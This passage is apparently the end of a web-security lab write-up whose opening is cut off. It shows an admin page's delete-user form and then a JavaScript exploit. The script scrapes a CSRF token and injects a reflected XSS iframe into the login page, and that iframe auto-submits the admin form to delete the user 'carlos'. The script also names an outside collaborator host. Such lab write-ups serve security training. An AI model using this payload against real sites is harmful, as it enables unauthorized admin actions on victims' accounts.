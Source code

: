                         <label>Username</label>
                        <input required="" type="text" name="username">
                        <button class="button" type="submit">Delete user</button>
                    </form>
                </div>
            </section>
        </div>
    
````
If you look there is a button to delete user 

-  <button class="button" type="submit">Delete user</button>
 
 
Now we need to delete carlos by injecting an iframe pointing to the /admin page

````
<script>
function xss(url, text, vector) {
  location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
  fetch(url).then(r=>r.text().then(text=>
  {
    xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
  }
  ))
}
fetchUrl("http://192.168.0.89:8080", "http://0klpcpmyumttuob8cbetz6ptkkqbe0.burpcollaborator.net");
</script>
````



After press deliver exploit victim. done carlose user is deleted
 
  Lab solved

![](https://media3.giphy.com/media/H4zC1A2FZ0ViA6GcxD/giphy.gif)








